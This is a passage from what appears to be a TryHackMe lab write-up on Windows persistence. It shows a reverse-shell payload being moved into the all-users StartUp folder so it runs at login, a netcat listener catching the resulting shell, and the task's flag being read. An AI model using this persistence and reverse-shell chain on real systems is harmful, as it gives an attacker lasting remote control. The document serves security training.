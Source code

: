 ```PowerShell
Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-r---        3/17/2021   3:13 PM                3D Objects
d-r---        3/17/2021   3:13 PM                Contacts
d-r---         6/8/2022   4:40 AM                Desktop
d-r---        5/29/2022  12:07 AM                Documents
d-r---        5/29/2022  12:07 AM                Downloads
d-r---        3/17/2021   3:13 PM                Favorites
d-r---        3/17/2021   3:13 PM                Links
d-r---        3/17/2021   3:13 PM                Music
d-r---        3/17/2021   3:13 PM                Pictures
d-r---        3/17/2021   3:13 PM                Saved Games
d-r---        3/17/2021   3:13 PM                Searches
d-r---        3/17/2021   3:13 PM                Videos
-a----         7/7/2023   5:31 PM           7168 revshell.exe
```
8. `move <PAYLOAD NAME>.exe <DESTINATION PATH>` from the compromised Windows machine to move our payload into the **C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp** directory, which is a directory that contains executables that all get executed whenever a user logs in to the compromised Windows machine
```PowerShell
PS C:\Users\Administrator> move revshell.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\"
        1 file(s) moved.
```
9. After successfully executing the previous commands, we signed out and logged back in from the compromised Windows machine, which ended up executing our payload that we move in to the **C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp** directory after we logged back in, which ended up creating a reverse shell that connected back to our attack machine's netcat listener

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/Windows%20RDP%20Sign%20Out.png)

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/Windows%20RDP%20Reconnect.png)

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/Windows%20RDP%20Reconnected.png)

```Bash
root@ip-10-10-157-221:~# nc -lvnp 9999
Listening on [0.0.0.0] (family 0, port 9999)
Connection from 10.10.236.33 49721 received!
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```
10. `C:\flags\flag10.exe` from our reverse shell on our attack machine to run the **flag10.exe** program, which ended up containing this task's flag and displaying it onto our terminal
```PowerShell
C:\Windows\system32>C:\flags\flag10.exe
C:\flags\flag10.exe
THM{NO_NO_AFTER_YOU}
```
